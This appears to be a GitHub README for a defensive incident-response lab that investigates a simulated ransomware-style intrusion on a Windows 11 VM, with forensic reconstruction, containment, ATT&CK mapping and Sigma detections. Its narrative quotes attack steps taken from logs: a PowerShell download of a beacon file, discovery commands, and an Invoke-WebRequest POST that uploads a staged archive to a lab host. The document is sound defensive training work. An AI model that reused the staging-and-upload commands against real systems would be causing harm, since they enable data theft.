







# Ransomware Incident Response & Detection Engineering Lab

An end-to-end incident response investigation of a controlled ransomware-style intrusion against a Windows 11 endpoint, covering forensic reconstruction, containment, eradication, recovery, MITRE ATT&CK mapping, and Sigma detection engineering.

> **Safety:** This project was conducted entirely in an isolated virtual lab using synthetic data. No real ransomware was executed, no real files were encrypted, and no data was transmitted to external systems.

---

## Project Overview

This project simulates the workflow of an Incident Response Analyst investigating a ransomware-style security incident.

Rather than focusing only on attack simulation, the project focuses on the defensive investigation:

**What happened? How can it be proven from telemetry? How should the system be contained and recovered? What detections can be created from the observed behavior?**

The investigation uses Windows endpoint telemetry and controlled network evidence to reconstruct activity across multiple stages of an incident.

### Investigation Lifecycle

```text
Initial Execution
       |
       v
Discovery
       |
       v
Account Creation & Privilege Modification
       |
       v
Data Collection & Staging
       |
       v
Controlled Exfiltration
       |
       v
Ransomware-Like Impact
       |
       v
Containment
       |
       v
Eradication & Recovery
       |
       v
Forensic Reconstruction
       |
       v
Detection Engineering
```

---

## Lab Architecture

```text
+--------------------------------+
| Windows 11 Endpoint            |
| WIN-O7S4P69OAEE                |
| 192.168.64.12                  |
|                                |
| Sysmon                         |
| Security Event Log             |
| PowerShell Logging             |
+---------------+----------------+
                |
                | Controlled Lab Traffic
                |
                v
+--------------------------------+
| Kali Linux                     |
| 192.168.64.11                  |
|                                |
| Controlled HTTP Server         |
| Controlled Upload Receiver     |
+--------------------------------+
```

The environment was hosted using isolated virtual machines. Network activity used only lab-controlled systems.

---

## Telemetry Sources

The investigation correlated multiple evidence sources instead of relying on a single log source:

- Sysmon Event ID 1 — Process Creation
- Sysmon Event ID 3 — Network Connection
- Sysmon Event ID 11 — File Creation
- Windows Security Event ID 4720 — User Account Creation
- PowerShell Event ID 4104 — Script Block Logging
- Windows Firewall configuration
- Controlled HTTP server and upload receiver logs
- File-system artifacts
- SHA-256 hashes
- Analyst-created evidence summaries and forensic timeline

This correlation allowed endpoint, network, account, file, and PowerShell activity to be reconstructed as one incident.

---

## Incident Narrative

### Initial Execution

PowerShell retrieved a controlled beacon file from the lab-controlled Kali host:

```text
http://192.168.64.11:8080/beacon.txt
```

The activity was supported by PowerShell Script Block Logging, Sysmon process creation, Sysmon network connection telemetry, file creation telemetry, and the HTTP server log.



---

### Discovery

A sequence of host and account discovery commands followed the initial execution, including:

```text
whoami
hostname
ipconfig /all
whoami /priv
net user
net localgroup administrators
arp -a
```

The commands were reconstructed using Sysmon process creation telemetry and parent/child process relationships.

The observed activity is consistent with post-compromise discovery used to understand the victim host, network configuration, local users, privileges, and administrative groups.

---

### Account Activity

A local account named:

```text
IRLab_Backup
```

was created during the simulation.

Windows Security Event ID **4720** independently confirmed the account creation.



The account was later disabled during containment and deleted during eradication.

A Security Event ID 4732 event was **not observed**, so this project does not claim that such an event was captured.

---

### Collection & Staging

Three synthetic training files were copied into a local staging directory:

```text
financial_report.txt
payroll.txt
customers.txt
```

The files were then compressed into:

```text
C:\IR-Lab\Staging\collected_data.zip
```

PowerShell Event ID 4104 captured the `Copy-Item` and `Compress-Archive` activity.



The staged archive had SHA-256:

```text
D62DF6CE434E4206E6CEA6D3F012E9DAC43AC506D322ADD502295136BB6632F5
```

---

### Controlled Exfiltration

The staged archive was transferred from the Windows endpoint to the lab-controlled Kali host using an HTTP POST request.

PowerShell recorded:

```text
Invoke-WebRequest
-Uri "http://192.168.64.11:8080/upload"
-Method POST
-InFile "C:\IR-Lab\Staging\collected_data.zip"
```



The transfer was corroborated by multiple evidence sources:

- PowerShell Event ID 4104 recorded the upload command.
- Sysmon Event ID 3 recorded a connection from `192.168.64.12` to `192.168.64.11:8080`.
- The controlled receiver recorded an HTTP POST from the Windows host.
- The receiver reported receiving 560 bytes.
- Source and destination SHA-256 hashes matched.

Therefore, controlled exfiltration of the staged training archive was confirmed within the isolated lab.

---

### Ransomware-Like Impact

The impact phase intentionally simulated ransomware symptoms **without executing ransomware or encrypting data**.

The three training files were renamed with a `.locked` extension and a training ransom-note artifact was created.

Hash verification showed that each `.locked` file remained identical to its known-good recovery copy.



Because the contents were unchanged, the evidence supports **filename modification only**, not encryption.

A read-only `vssadmin list shadows` command was also executed. No shadow copies were deleted or modified.

For these reasons, this project does **not** claim ATT&CK techniques T1486 (Data Encrypted for Impact) or T1490 (Inhibit System Recovery).

---

## Containment, Eradication & Recovery

Containment began at approximately **7:17:10 PM** and ended at approximately **7:19:19 PM**, for a documented duration of **2 minutes 9 seconds**.

Containment actions included:

- Blocking outbound communication to `192.168.64.11`
- Blocking inbound communication from `192.168.64.11`
- Disabling `IRLab_Backup`
- Checking for active TCP connections to the known remote host
- Preserving evidence before eradication



No active TCP connections to the known remote host were observed at the time of containment.

A subsequent TCP connectivity test was unsuccessful; however, the Kali HTTP listener had also been stopped. Therefore, the failed connectivity test alone is **not** treated as proof that the firewall caused the failure. The enabled firewall rules independently confirm that explicit network blocks were implemented.

During eradication and recovery:

- `IRLab_Backup` was deleted.
- The simulated `.locked` artifacts were removed.
- Known-good copies were restored.
- SHA-256 hashes of the restored files matched the recovery copies.

This provided integrity-based verification of successful recovery.

---

## MITRE ATT&CK Mapping

| Technique | Description | Evidence |
|---|---|---|
| T1059.001 | PowerShell | PowerShell used throughout multiple phases |
| T1105 | Ingress Tool Transfer | Controlled `beacon.txt` retrieved over HTTP |
| T1033 | System Owner/User Discovery | `whoami` |
| T1016 | System Network Configuration Discovery | `ipconfig /all`, network discovery |
| T1087.001 | Account Discovery: Local Account | `net user` |
| T1069.001 | Permission Groups Discovery: Local Groups | `net localgroup administrators` |
| T1136.001 | Create Account: Local Account | `IRLab_Backup` account creation |
| T1098.007 | Account Manipulation: Additional Local or Domain Groups | Administrative group modification activity |
| T1074.001 | Data Staged: Local Data Staging | Files copied to staging directory |
| T1560.001 | Archive Collected Data | `Compress-Archive` created staged ZIP |
| T1041 | Exfiltration Over C2 Channel | Controlled HTTP POST to lab receiver |

### Evidence-Based Exclusions

Two ransomware-associated techniques were deliberately **not** claimed:

**T1486 — Data Encrypted for Impact**

The `.locked` files had SHA-256 hashes identical to their known-good copies. No encryption occurred.

**T1490 — Inhibit System Recovery**

`vssadmin` was used only to list shadow copies. No command deleting or modifying shadow copies was executed.

This distinction demonstrates evidence-based ATT&CK mapping rather than mapping techniques solely because they are commonly associated with ransomware.

---

## Detection Engineering

Five custom Sigma rules were created from behaviors observed during the investigation:

| Detection | Purpose |
|---|---|
| `powershell_download.yml` | Detect suspicious PowerShell download behavior |
| `powershell_http_upload.yml` | Detect PowerShell HTTP upload activity |
| `powershell_compress_archive.yml` | Detect archive creation through PowerShell |
| `local_account_creation.yml` | Detect local account creation |
| `local_admin_group_add.yml` | Detect local administrative group modification |

The rules are available in the [`detections`](detections/) directory.

The detection strategy focuses on behavioral telemetry rather than hard-coding only lab-specific indicators.

---

## Sigma Validation

The custom Sigma rules were validated using **Sigma CLI 3.1.0**.

Validation result:

```text
Found 0 errors, 0 condition errors and 0 issues.
No rule errors found.
No condition errors found.
No validation issues found.
```



All five rules successfully parsed and passed Sigma CLI validation.

This confirms rule syntax and validation compliance. It does **not** imply that the rules were deployed to or fired inside a production SIEM.

---

## Key Investigation Findings

1. PowerShell telemetry provided strong visibility into execution, staging, and transfer activity.
2. Sysmon provided process, network, and file-system evidence that could be correlated with PowerShell logs.
3. Windows Security Event ID 4720 independently confirmed creation of the suspicious local account.
4. Data staging was confirmed through file-copy and archive-creation telemetry.
5. Controlled exfiltration was confirmed through endpoint telemetry, receiver evidence, transferred byte count, and matching hashes.
6. The ransomware-like impact did not involve encryption; matching hashes proved the contents remained unchanged.
7. No evidence supported shadow-copy deletion.
8. Network and account containment were implemented before eradication.
9. Recovery integrity was verified using SHA-256.
10. Behavioral findings were converted into reusable Sigma detections.

---

## Evidence Screenshots

The screenshots below represent selected evidence from the investigation.

| Investigation Stage | Evidence |
|---|---|
| Detection validation | [`01-sigma-validation.png`](screenshots/01-sigma-validation.png) |
| Initial execution | [`02-powershell-initial-access.png`](screenshots/02-powershell-initial-access.png) |
| Account creation | [`03-account-creation-4720.png`](screenshots/03-account-creation-4720.png) |
| Collection and staging | [`04-data-staging-archive.png`](screenshots/04-data-staging-archive.png) |
| Controlled exfiltration | [`05-controlled-exfiltration.png`](screenshots/05-controlled-exfiltration.png) |
| Impact verification | [`06-impact-hash-verification.png`](screenshots/06-impact-hash-verification.png) |
| Containment | [`07-network-containment.png`](screenshots/07-network-containment.png) |

---

## Repository Structure

```text
Ransomware-IR-Lab/
|
+-- README.md
+-- .gitignore
|
+-- detections/
|   +-- local_account_creation.yml
|   +-- local_admin_group_add.yml
|   +-- powershell_compress_archive.yml
|   +-- powershell_download.yml
|   +-- powershell_http_upload.yml
|
+-- docs/
|   +-- incident-report.md
|
+-- evidence/
|   +-- detection-coverage-matrix.txt
|   +-- ioc-and-artifacts.txt
|   +-- master-timeline.txt
|   +-- mitre-attack-mapping.txt
|   +-- sigma-validation-results.txt
|
+-- screenshots/
    +-- 01-sigma-validation.png
    +-- 02-powershell-initial-access.png
    +-- 03-account-creation-4720.png
    +-- 04-data-staging-archive.png
    +-- 05-controlled-exfiltration.png
    +-- 06-impact-hash-verification.png
    +-- 07-network-containment.png
```

Raw EVTX files and other large or potentially sensitive investigation artifacts are intentionally excluded from the public repository.

---

## Forensic Limitations

Timestamp values across Windows Event Viewer displays, embedded Sysmon UTC fields, and Kali logs showed clock/timezone inconsistencies.

Original timestamps were preserved rather than silently normalized without an established clock offset.

The investigation therefore relies on both timestamp context and causal/event relationships when reconstructing activity.

Additional limitations include:

- The environment is a controlled lab rather than an enterprise network.
- Synthetic files were used instead of real sensitive information.
- No destructive ransomware payload was executed.
- No production SIEM was used to demonstrate live Sigma alerts.
- The failed post-containment TCP test cannot independently prove firewall effectiveness because the destination listener had already stopped.

These limitations are intentionally documented to avoid overstating the conclusions.

---

## Skills Demonstrated

This project demonstrates practical experience with:

- Incident response methodology
- Windows event-log analysis
- Sysmon telemetry
- PowerShell Script Block Logging
- Process-tree analysis
- Network connection analysis
- Account activity investigation
- File-system forensics
- SHA-256 integrity verification
- Data staging and exfiltration analysis
- Containment decision-making
- Eradication and recovery
- MITRE ATT&CK mapping
- Sigma detection engineering
- Detection validation
- Evidence preservation
- Timeline reconstruction
- Technical documentation
- Executive incident reporting

---

## Full Incident Report

The detailed investigation report is available here:

[`docs/incident-report.md`](docs/incident-report.md)

Supporting evidence and analysis are available in:

[`evidence/`](evidence/)

Custom Sigma detections are available in:

[`detections/`](detections/)

---

## Disclaimer

This repository documents a **controlled cybersecurity training environment**.

All systems involved were owned and operated within the isolated lab. All documents contained synthetic training data. Network transfer occurred only between lab-controlled virtual machines.

No real ransomware was deployed, no unauthorized system was targeted, and no external data exfiltration occurred.

The project is intended solely to demonstrate defensive incident response, forensic analysis, containment, recovery, and detection-engineering skills.